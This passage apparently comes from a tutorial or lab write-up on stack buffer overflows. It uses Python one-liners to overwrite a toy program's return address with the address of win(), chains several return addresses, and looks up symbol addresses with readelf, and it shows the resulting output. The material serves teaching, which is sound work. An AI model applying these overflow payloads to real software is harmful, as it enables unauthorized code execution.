 As expected, we were able to successfully overwrite the return address with the
address of \texttt{win()}. This caused \texttt{win()} to execute after the
program returned from \texttt{main()}. Verify that this works outside of
\texttt{gdb} as well.

\begin{lstlisting}
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00'" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Segmentation fault
> 
\end{lstlisting}

You'll notice that the program crashes after returning from \texttt{win()}. This
is because \texttt{win()} expects a return address on top of the stack when it
is called, but when we call it only a null pointer is there. If we were to put a
valid address there, say the address of \texttt{lose()}, the instructions at
that address would be called after the program returns from \texttt{win()}.

\begin{lstlisting}
> readelf --symbols ./ret_overwrite | grep lose
    51: 00000000004005f8    17 FUNC    GLOBAL DEFAULT   14 lose
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00' + '\xf8\x05\x40\x00\x00\x00\x00\x00'" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Invalid auth token.
Segmentation fault
> 
\end{lstlisting}

We can do this as many times as we want. The more valid return addresses we
write to the stack, the more functions will be called after we exit from
\texttt{main()}. Note however that the base pointer was clobbered during the
overflow, so any functions (such as \texttt{main()}) that use it to access local
variables will almost certainly crash.

\begin{lstlisting}
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00' * 10" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Access granted.
Segmentation fault
> readelf --symbols ./ret_overwrite | grep main
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5 (2)
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    66: 0000000000400609   127 FUNC    GLOBAL DEFAULT   14 main
> python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00' + '\x09\x06\x40\x00\x00\x00\x00\x00'" | ./ret_overwrite 
Enter the password:
You don't have permission to perform this action.
Access granted.
Segmentation fault
\end{lstlisting}

